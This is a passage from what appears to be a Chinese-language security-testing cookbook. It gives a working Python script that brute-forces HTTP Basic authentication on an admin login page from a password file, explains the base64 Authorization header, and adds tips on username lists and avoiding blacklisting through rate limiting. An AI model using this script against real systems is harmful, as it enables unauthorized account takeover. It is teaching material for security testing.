 ## 怎么做…

以下代码将尝试通过基本身份验证强行进入网站：

```
import requests
from requests.auth import HTTPBasicAuth

with open('passwords.txt') as passwords:
    for password in passwords.readlines():
        password = password.strip()
        req = requests.get('http://packtpub.com/admin_login.html', auth=HTTPBasicAuth('admin', password))
        if req.status_code == 401:
            print password, 'failed.'
        elif req.status_code == 200:
            print 'Login successful, password:', password
            break
        else:
            print 'Error occurred with', password
            break
```

## 它是如何工作的…

此脚本的第一部分逐行读取密码列表。然后向登录页面发送 HTTP`GET`请求：

```
req = requests.get('http://packtpub.com/admin_login.html', auth=HTTPBasicAuth('admin', password))
```

此请求有一个额外的`auth`参数，其中包含用户名`admin`和从`passwords.txt`文件读取的`password`。发送带有基本`Authorization`头的 HTTP 请求时，原始数据如下所示：

![How it works…](graphics/B04044_05_04.jpg)

注意，在`Authorization`报头中，数据以编码格式发送，例如`YWRtaW46cGFzc3dvcmQx`。这是`username:password`的`base64`编码形式的用户名和密码；`requests.auth.HTTPBasicAuth`类只是为我们做这个转换。这可以通过使用`base64`库进行验证，如以下屏幕截图所示：

![How it works…](graphics/B04044_05_05.jpg)

了解这些信息意味着您仍然可以在没有外部请求库的情况下运行脚本；相反，它使用`base64`默认库手动创建`Authorization`头。

以下是暴力脚本的屏幕截图：

![How it works…](graphics/B04044_05_06.jpg)

## 还有更多…

在这个示例中，我们在授权请求中使用了一个固定的 admin 用户名，这是众所周知的。如果这是未知的，您可以创建一个`username.txt`文本文件，并循环遍历其中的每一行，就像我们对密码文本文件所做的那样。请注意，这是一个慢得多的过程，会向目标站点创建大量 HTTP 请求，这很可能会将您列入黑名单，除非您实施速率限制。

## 另见
